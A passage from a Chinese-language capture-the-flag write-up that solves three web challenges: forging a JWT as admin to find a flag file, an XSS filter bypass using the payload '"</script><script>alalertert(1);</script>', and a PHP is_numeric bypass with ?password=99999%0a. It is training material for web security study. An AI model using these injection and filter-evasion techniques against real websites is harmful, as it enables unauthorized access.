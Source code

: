 然后根据提示：[JSON Web Tokens - jwt.io](https://jwt.io/) 修改为2019年的admin

![](https://i.loli.net/2021/11/08/flgtqaDPuz5NWIU.png)



抓返回包或者当头部传进去都可以，得到flag所在文件
`fffffffffffffffffffffffffffffffflaggggu9821347981.php`

![](https://s2.loli.net/2022/03/09/Qx6MrRlWbXqTIOe.png)

访问之

![](https://i.loli.net/2021/11/08/tTzLCacEPspSq5Z.png)







## babyxss

如题，成功输入alert(1)即可，构造闭合：

```
'"</script><script>alalertert(1);</script>
```

![](https://i.loli.net/2021/10/21/RjXwKyvJWHLbFZk.png)



## Baby_PHP_Black_Magic_Enlightenment

```php
<?php
echo "PHP is the best Language <br/>";
echo "Have you ever heard about PHP Black Magic<br/>";
error_reporting(0);
$temp = $_GET['password'];
is_numeric($temp)?die("no way"):NULL;    
if($temp>9999){
    echo file_get_contents('./2.php');
    echo "How's that possible";
} 
highlight_file(__FILE__);
//Art is long, but life is short. So I use PHP.
//I think It`s So useful that DiaoRen Said;
//why not they use their vps !!!
//BBTZ le jiarenmen

?>
```

绕过is_numeric()，%0a啥的就行

```
?password=99999%0a
```
